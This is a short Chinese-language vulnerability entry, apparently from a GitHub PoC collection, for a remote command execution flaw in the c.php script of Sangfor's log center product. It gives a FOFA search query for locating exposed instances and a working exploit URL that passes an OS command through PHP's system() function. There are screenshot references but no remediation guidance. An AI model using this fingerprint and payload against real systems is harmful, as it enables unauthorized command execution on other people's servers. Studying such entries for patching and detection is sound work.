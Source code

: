 #  深信服-日志中心-c.php-远程命令执行漏洞

## 漏洞描述

深信服 日志中心 c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

> [!NOTE]
>
> 深信服 日志中心

## FOFA

> [!NOTE]
>
> body="isHighPerformance : !!SFIsHighPerformance,"

## 漏洞复现

登录页面如下

![image-20210531192407444](深信服-日志中心-c.php-远程命令执行漏洞.assets/16273630899811761.jpg)

访问漏洞Url

```
/tool/log/c.php?strip_slashes=system&host=ipconfig
```

![image-20210531192540462](深信服-日志中心-c.php-远程命令执行漏洞.assets/16273630902443829.jpg)